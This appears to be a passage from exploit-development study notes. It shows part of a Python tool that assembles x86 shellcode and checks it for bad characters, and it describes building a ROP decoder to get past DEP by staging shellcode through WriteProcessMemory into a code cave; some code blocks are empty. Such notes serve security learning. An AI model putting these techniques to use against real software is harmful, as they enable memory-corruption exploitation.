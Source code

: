         # Print shellcode
        print(f'shellcode = b"{chunks[0]}"')
        for chunk in chunks[1:]:
            print(f'shellcode += b"{chunk}"')
    
    def compile_code(code: list) -> tuple:
        if isinstance(code, list):
            code = "".join(code)
        ks = Ks(KS_ARCH_X86, KS_MODE_32)
        encoding, count = ks.asm(code)
        return encoding, count
    
    def parse_args():
        parser = argparse.ArgumentParser(
            prog="shellchecker.py", description="Checks shellcode for bad chars and generates opcodes."
        )
        parser.add_argument(
            "-b", "--badchars", type=str, help="Bad Characters (format: '\\x00\\x0a')"
        )
        parser.add_argument(
            "-p",
            "--print-opcodes",
            action="store_true",
            help="Print the opcodes for each instruction.",
        )
    
        return parser.parse_args()
    
    def main(args):
        code = ccode
        print_shellcode(code, args.badchars)
        if args.print_opcodes:
            print_opcodes(code, args.badchars, '0x01000000')
    
    if __name__ == "__main__":
        _args = parse_args()
        main(_args)
    ```
    
    By reviewing our shellcode we identify the following occurrences of bad chars within the shellcode.
    
    ```python
    
    ```
    
    ```bash
    
    ```
    
- Automated ROP Encoding
    
    In order for our DEP evasion mechanism to function correctly, it's necessary to incorporate the decoding process directly within the ROP chain, thereby creating a ROP decoder. As we, and our shellcode, won't be granted write permissions following the transfer of the shellcode into the code cave via WPM, it's imperative that the decoding takes place prior to the invocation of WPM.
    